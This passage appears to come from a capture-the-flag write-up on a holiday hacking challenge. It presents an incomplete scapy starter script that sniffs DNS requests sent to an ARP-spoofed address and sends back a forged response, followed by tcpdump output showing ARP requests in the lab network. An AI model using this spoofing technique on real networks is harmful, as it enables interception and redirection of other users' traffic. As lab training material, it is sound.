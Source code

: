 dns_resp.py
~~~
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

#Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
#Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])
#destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"

def handle_dns_request(packet):
    #Need to change mac addresses, Ip Addresses, and ports below.
    #We also need
    eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00")   # need to replace mac addresses
    ip  = IP(dst="0.0.0.0", src="0.0.0.0")                          # need to replace IP addresses
    udp = UDP(dport=99999, sport=99999)                             # need to replace ports
    dns = DNS(
        #MISSING DNS RESPONSE LAYER VALUES 
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
        "dst host {}".format(ipaddr_we_arp_spoofed),    # destination ip we had spoofed (not our real ip)
        "ether dst host {}".format(macaddr)             # our macaddress since we spoofed the ip to our mac
    ] )

    #sniff the eth0 int without storing packets in memory and stopping after one dns request
    sniff(filter=berkeley_packet_filter, prn=handle_dns_request, store=0, iface="eth0", count=1)

if __name__ == "__main__":
    main()
~~~

Ok, so using tcpdump we can see some ARP requests showing up:
guest@aa06b5ba6cc5:~/debs$ tcpdump
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
22:11:02.539520 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
22:11:03.571506 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
22:11:04.603551 ARP, Request who-has winsrvdc2019.guestnet0.kringlecastle.com tell arp_requester.guestnet0.kringlecastle.com, length 28
